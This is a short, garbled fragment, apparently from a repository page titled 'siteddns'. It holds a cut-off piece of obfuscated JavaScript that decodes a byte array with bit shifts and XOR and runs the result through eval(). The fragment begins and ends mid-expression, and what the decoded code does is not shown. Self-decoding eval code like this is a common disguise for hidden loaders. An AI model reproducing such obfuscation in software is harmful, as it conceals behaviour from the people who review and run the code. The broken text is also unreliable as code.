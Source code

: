  # siteddns
=2);kc="kc=3;do{if(kc>49)break;ic[kc]=((ic[kc]+ic[kc+1])&0xff)^217;kc++;}while(true);";eval(kc);kc="kc=2;do{ic[kc]=((((ic[kc]>>7)|((ic[kc]
